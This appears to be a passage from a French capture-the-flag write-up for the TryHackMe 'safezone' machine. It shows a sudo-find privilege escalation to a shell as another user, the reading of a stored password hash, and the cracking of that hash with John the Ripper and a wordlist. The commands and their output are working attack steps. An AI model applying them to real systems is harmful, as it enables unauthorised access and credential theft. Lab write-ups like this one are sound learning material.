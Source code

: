 On obtient un shell dans yash il y le fichier user.txt mais on a pas l'autorisation de le lire.   

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@safezone:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find

sudo -u files /usr/bin/find . -exec /bin/sh \; -quit
$ id
id
uid=1001(files) gid=1001(files) groups=1001(files)
```

sudo est configuré pour exécuter find avec les droits de files sans mot de passe.   
On obtient un shell en disant à find de nous ouvrire un shell.   

```bash
$ cd /home/files
cd /home/files
$ ls -al
ls -al
total 40
drwxrwxrwx 5 files files 4096 Mar 29  2021  .
drwxr-xr-x 4 root  root  4096 Jan 29  2021  ..
-rw------- 1 files files    0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files files  220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files files 3771 Jan 29  2021  .bashrc
drwx------ 2 files files 4096 Jan 29  2021  .cache
drwx------ 3 files files 4096 Jan 29  2021  .gnupg
drwxrwxr-x 3 files files 4096 Jan 30  2021  .local
-rw-r--r-- 1 files files  807 Jan 29  2021  .profile
-rw-r--r-- 1 root  root   105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29  2021  pass.txt
$ cat pass.txt
cat pass.txt

$ cat .something#fake_can@be^here
cat .something#fake_can@be^here
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

On listant le répertoire files on trouve un fichier qui contient le password files sous forme de hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.' > hash
tim@kali:~/Bureau/tryhackme/write-up$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
magic            (?)
1g 0:00:00:00 DONE (2021-10-24 20:35) 2.000g/s 6144p/s 6144c/s 6144C/s gators..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```